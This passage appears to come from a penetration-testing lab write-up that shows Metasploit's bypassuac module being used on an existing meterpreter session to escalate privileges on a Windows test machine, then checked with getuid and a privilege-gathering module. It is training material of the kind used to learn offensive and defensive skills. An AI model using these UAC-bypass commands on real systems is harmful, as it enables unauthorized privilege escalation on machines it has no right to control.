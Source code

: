 There is a module named `bypassuac`. Let's use it and see what options we have to configure. Once selected, let's run `show options` to check module options.

```
msf explit(handler) > use exploit/windows/local/bypassuac
msf exploit(bypassuac) > show options
msf exploit(bypassuac) > sessions
msf exploit(bypassuac) > set SESSION 1
```

It seems we need to set the id of the session we want to use, meeting the active meterpreter session on the exploited machine. To get this id, we can simply run the `sessions` command. So this is the id. Let's now set the module options as followed, and then run the module by typing `exploit`.

It seems that its working. Here indeed we can see a message say the module can bypass UAC on the machine. And after a few seconds, a new meterpreter appears.

![set-bypass-uac-session.png](/img/in-post/ine/set-bypass-uac-session.png)

```
msf exploit(bypassuac) > exploit
```

In this new session, Let's first verify current user by `getuid` command. Once again we are using els user. It seems that nothing is changed, but that's not true. Let's try to run the `win_privs` module once again, and see we have the same result to before.

```
meterpreter > getuid
Server username: els\els
meterpreter > run post/windows/gather/win_privs
```
